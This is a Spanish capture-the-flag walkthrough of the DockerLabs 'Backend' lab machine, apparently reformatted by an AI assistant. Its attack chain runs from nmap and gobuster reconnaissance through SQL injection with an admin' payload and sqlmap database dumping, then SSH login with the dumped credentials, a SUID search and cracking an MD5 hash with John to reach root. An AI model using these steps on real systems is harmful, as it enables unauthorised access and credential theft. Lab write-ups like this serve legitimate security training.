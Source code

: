 Aquí tienes tu documento mejorado, con una mejor estructura, ortografía corregida, claridad en las explicaciones y un formato más limpio y llamativo:  

---

# 🖥️ **Máquina: Backend**  
- **🔹 Dificultad:** Fácil  
- **📌 Descripción:**  
  Esta máquina de DockerLabs pone a prueba habilidades en la explotación de bases de datos mediante **inyecciones SQL (SQLi)**. Se enfoca en la identificación y explotación de vulnerabilidades en consultas MySQL, lo que permite el acceso no autorizado a la base de datos y la extracción de información sensible.  

- **🎯 Objetivo:**  
  - Identificar y explotar fallos de seguridad en la aplicación backend mediante técnicas de **inyección SQL**.  
  - Comprender su impacto.  

![Máquina Backend](/Backend/Images/Maquina.png)

---

## 🚀 **Iniciando la Máquina Backend en DockerLabs**  

Para desplegar la máquina, sigue estos pasos:  

### 🔹 1️⃣ Descargar y descomprimir el archivo  
Primero, descarga el archivo `.zip` y extráelo. En mi caso, uso `7z`:  

```bash
7z e backend.zip
```

### 🔹 2️⃣ Ejecutar el despliegue automático  
Una vez descomprimido, ejecuta el siguiente comando para desplegar la máquina:  

```bash
bash auto_deploy.sh backend.tar
```

📌 **Nota:** Asegúrate de tener `7z` instalado y de ejecutar el script en un entorno adecuado con Docker configurado.  

---

## 📡 **Fase de Reconocimiento**  

Una vez iniciada la máquina, verificamos la conexión con:  

```bash
ping -c4 172.17.0.2
```

Si la conexión es exitosa, procedemos con un escaneo de puertos usando `nmap`:  

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

📌 **Nota:** En mis repositorios puedes encontrar información sobre los comandos empleados en esta fase, ya que uso scripts personalizados.  

Extraemos la información relevante de los puertos con:  

```bash
extracPorts allPorts.txt
```

![Reconocimiento](/Backend/Images/escaneo.jpeg)

Ahora realizamos un análisis más detallado de los servicios detectados:  

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```

📌 **Nota:**  
- **Puerto 22** → Servicio **SSH** (posible acceso remoto).  
- **Puerto 80** → Página web corriendo en el servidor.  

![Reconocimiento](/Backend/Images/puertos.jpeg)

Para acceder a la página web en el navegador, añadimos la IP al archivo **`/etc/hosts`**:  

```bash
nano /etc/hosts
```

![Directorio](/Backend/Images/etc/hosts.jpeg)

---

## 🔍 **Análisis de la Página Web**  

Recopilamos información con `whatweb`:  

```bash
whatweb 172.17.0.2
```

![Reconocimiento](/Backend/Images/etc/whatweb.jpeg)

Al explorar la página web, encontramos un formulario de **inicio de sesión**. Probamos credenciales por defecto, pero ninguna funcionó.  

![Página](/Backend/Images/etc/pruebas.jpeg)

---

## 🚀 **Enumeración de Directorios**  

Ejecutamos `gobuster` para encontrar posibles rutas ocultas en la página web:  

```bash
gobuster dir -u 172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -b '403,404'
```

📌 **Nota:** Si no tienes la biblioteca de directorios instalada, usa:  

```bash
apt -y install seclists
```

![Directorios](/Backend/Images/etc/directorios.jpeg)

---

## 🛠 **Explotación: Inyección SQL**  

Para comprobar si el formulario de inicio de sesión es vulnerable, probamos con:  

```text
admin'
```

Esto generó un error de base de datos, indicando que el sitio **es vulnerable a inyecciones SQL**.  

![Error](/Backend/Images/etc/sql.jpeg)

### **Automatización con SQLMap**  

Capturamos la solicitud con **Burp Suite** y la guardamos en un archivo `.req`.  

![Peticiones](/Backend/Images/etc/peticion.jpeg)

Usamos `sqlmap` para automatizar la inyección SQL y extraer información sensible:  

```bash
sqlmap -r peticiones.req --level=5 --risk=3 --dump
```

![SQLMap](/Backend/Images/etc/sqlmap.jpeg)

Como resultado, obtuvimos la base de datos `users` con **usuarios y contraseñas**.

---

## 🔑 **Acceso al Sistema vía SSH**  

Probamos las credenciales obtenidas y encontramos que **"pepe"** tiene acceso por SSH:  

```bash
ssh pepe@172.17.0.2 -p 22
```

![SSH](/Backend/Images/etc/conectarssh.jpeg)

📌 **Nota:** Se puede automatizar el intento de acceso con **Hydra**, pero para este ejercicio lo hicimos manualmente.  

---

## 🏗️ **Escalada de Privilegios**  

Buscamos binarios con **SUID** para detectar posibles vulnerabilidades:  

```bash
find / -perm -4000 2>/dev/null
```

Esto reveló que podemos ejecutar `grep` y `ls` con privilegios de **root**.  

![Buscar](/Backend/Images/etc/Buscar.jpeg)

Dentro de los archivos encontramos un **hash MD5**. Guardamos el hash en un archivo y lo desciframos con `John the Ripper`:  

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

📌 **Nota:** También se puede descifrar con herramientas en línea.  

Finalmente, usamos la contraseña obtenida para conectarnos por SSH como **root**.  

![Contraseña Root](/Backend/Images/etc/ContraseñaRoot.jpeg)

---

## 🎉 **Conclusión**  

✔️ **Se logró acceso inicial mediante SQLi.**  
✔️ **Se obtuvieron credenciales de usuario mediante extracción de bases de datos.**  
✔️ **Se accedió por SSH y se escaló privilegios hasta root.**  

🚀 **Máquina "Backend" completada exitosamente.**  

---

### 📌 **Herramientas Utilizadas:**  
- **Nmap** (Escaneo de puertos)  
- **Gobuster** (Enumeración de directorios)  
- **Burp Suite** (Captura de peticiones)  
- **SQLMap** (Automatización de inyecciones SQL)  
- **John the Ripper** (Descifrado de contraseñas)  

---

Este formato mejora la organización, claridad y profesionalismo del documento. ¡Espero que te sirva! 🚀🔥


